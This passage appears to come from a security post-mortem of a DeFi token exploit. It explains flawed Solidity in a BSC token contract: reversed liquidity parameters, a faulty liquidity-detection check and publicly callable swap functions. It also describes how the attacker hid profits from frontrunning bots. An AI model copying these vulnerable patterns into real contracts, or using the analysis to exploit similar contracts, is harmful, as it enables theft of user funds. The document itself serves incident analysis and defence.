function swapAndLiquify() public {
    uint256 allAmount = balanceOf(address(this));
    if(allAmount > 10**18){
        uint256 canswap = allAmount.div(2);
        uint256 otherAmount = allAmount.sub(canswap);
        swapTokensForOther(canswap);
        uint256 ethBalance = ETH.balanceOf(address(this));
        addLiquidityUsdt(ethBalance, otherAmount);
    }
}

function addLiquidityUsdt(uint256 tokenAmount, uint256 usdtAmount) private {
    uniswapV2Router.addLiquidity(
        address(_baseToken),
        address(this),
        usdtAmount,
        tokenAmount,
        0,
        0,
        _tokenOwner,
        block.timestamp
    );
}
```

When adding liquidity with `mbc` first and `usdt` second, it triggers the `swapAndLiquify` function. As previously discussed, this function involves selling the contract's tokens for USDT and then adding liquidity. The issue arises because the parameter order is incorrect: `addLiquidityUsdt` expects the contract's token quantity first and then the USDT quantity. However, when calling `swapAndLiquify`, the parameters are passed in reverse order, leading to the error in the test code.

As for why adding liquidity with `usdt` first and `mbc` second doesn't result in an error, it's due to a flaw in the `_isAddLiquidityV1` function's logic:

```solidity
function _isAddLiquidityV1() internal view returns(bool ldxAdd){
    address token0 = IUniswapV2Pair(address(uniswapV2Pair)).token0();
    address token1 = IUniswapV2Pair(address(uniswapV2Pair)).token1();
    (uint r0,uint r1,) = IUniswapV2Pair(address(uniswapV2Pair)).getReserves();
    uint bal1 = IERC20(token1).balanceOf(address(uniswapV2Pair));
    uint bal0 = IERC20(token0).balanceOf(address(uniswapV2Pair));
    if( token0 == address(this) ){
        if( bal1 > r1){
            uint change1 = bal1 - r1;
            ldxAdd = change1 > 1000;
        }
    }else{
        if( bal0 > r0){
            uint change0 = bal0 - r0;
            ldxAdd = change0 > 1000;
        }
    }
}
```

As mentioned earlier, this function checks whether the current `_transfer` operation is part of adding liquidity. If it isn't, the contract's tokens are exchanged and liquidity is added. The problem arises because when adding liquidity with `usdt` first and `mbc` second, it is detected by the `_isAddLiquidityV1` function, so the `swapAndLiquify` function isn't executed. However, when adding liquidity with `mbc` first and `usdt` second, the router first transfers the `mbc` tokens, and at this point, `usdt` hasn't been added to the pool yet. As a result, the `_isAddLiquidityV1` function doesn't detect a change in the pool's `usdt` balance, leading to the assumption that liquidity isn't being added. This causes the `swapAndLiquify` function to execute. This behavior can result in inconsistencies between user expectations and actual outcomes when ordinary users add liquidity, as seen in the test code.

Additionally, it's worth noting that making both the `swapAndLiquify` and `swapTokensForOther` functions `public` is also a vulnerability.

### Frontrunning Protection

Upon decompilation of the [attack contract](https://bscscan.com/address/0xe4a5e6a59bb390a1abc39eb6c6dd61d8f3e9bd58), it appears that the code mainly relies on relatively simple require validation statements.

However, as analyzed earlier, the attacker did not directly retain profits in the attackContract or send them to their address in the attack transactions. Instead, they transferred the profits to a pre-existing contract, which served as temporary storage for attack income, and later withdraw it all at once. This tactic was used to prevent their gains from becoming too conspicuous and potentially attracting the attention of bots. However, the effectiveness of this approach may be limited.

## Reference

[A Deep Dive Into the Uniswap V2 Protocol](https://betterprogramming.pub/uniswap-v2-in-depth-98075c826254)